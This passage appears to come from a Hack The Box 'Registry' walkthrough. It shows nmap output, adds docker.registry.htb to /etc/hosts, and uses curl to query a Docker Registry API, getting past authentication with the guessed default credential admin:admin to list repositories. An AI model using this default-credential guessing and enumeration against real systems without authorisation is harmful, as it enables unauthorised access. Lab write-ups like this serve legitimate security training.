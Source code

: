 ```
443/tcp open  ssl/http syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Welcome to nginx!
| ssl-cert: Subject: commonName=docker.registry.htb
| Issuer: commonName=Registry
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-05-06T21:14:35
| Not valid after:  2029-05-03T21:14:35
| MD5:   0d6f 504f 1cb5 de50 2f4e 5f67 9db6 a3a9
|_SHA-1: 7da0 1245 1d62 d69b a87e 8667 083c 39a6 9eb2 b2b5
```

Did you see `docker.registry.htb`? Let's pop that in to `/etc/hosts`.

### Docker Registry

Something tells me that I'm looking at a docker registry.

```
# curl -ik https://docker.registry.htb/v2/
HTTP/1.1 401 Unauthorized
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 20 Oct 2019 15:10:45 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 87
Connection: keep-alive
Docker-Distribution-Api-Version: registry/2.0
Www-Authenticate: Basic realm="Registry"
X-Content-Type-Options: nosniff

{"errors":[{"code":"UNAUTHORIZED","message":"authentication required","detail":null}]}
```

Bingo.

Based on the API [overview](https://docs.docker.com/registry/spec/api/#overview), I can simply issue `/v2/_catalog`, to list the repositories that are in this cluster. I got lucky with the credential (`admin:admin`) by the way.

```
# curl -ik --user "admin:admin" https://docker.registry.htb/v2/_catalog
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 20 Oct 2019 15:15:16 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 32
Connection: keep-alive
Docker-Distribution-Api-Version: registry/2.0
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=63072000; includeSubdomains
X-Frame-Options: DENY
X-Content-Type-Options: nosniff

{"repositories":["bolt-image"]}
```


[1]: https://www.hackthebox.eu/home/machines/profile/213
[2]: https://www.hackthebox.eu/home/users/profile/4615
[3]: https://www.hackthebox.eu/